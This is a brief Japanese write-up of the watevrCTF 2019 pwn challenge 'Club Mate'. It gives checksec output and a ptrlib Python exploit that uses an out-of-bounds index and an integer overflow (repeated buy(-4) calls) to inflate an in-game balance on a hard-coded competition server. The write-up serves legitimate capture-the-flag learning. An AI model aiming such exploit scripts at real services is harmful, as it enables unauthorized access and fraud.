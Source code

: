 # [pwn 144pts] Club Mate - watevrCTF 2019
64ビットバイナリで、SSP以外有効です。
```
$ checksec -f Club_Mate
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No      0               1       Club_Mate
```
OOBとInteger Overflowを使ってお金を増やします。
```pythonm
from ptrlib import *

def buy(index):
    sock.sendline(str(index))
    sock.sendline("$4")
def ret(index):
    sock.sendline(str(index))
    sock.sendline("yes")

elf = ELF("./Club_Mate")
#sock = Process(["stdbuf", "-o0", "-i0", "./Club_Mate"])
sock = Socket("13.48.178.241", 50000)

buy(0)
ret(0)
for i in range(1, 15):
    buy(i)
for i in range(113):
    buy(-4)
buy(0)

sock.interactive()
```

# 感想
簡単ですがrevが面倒です。
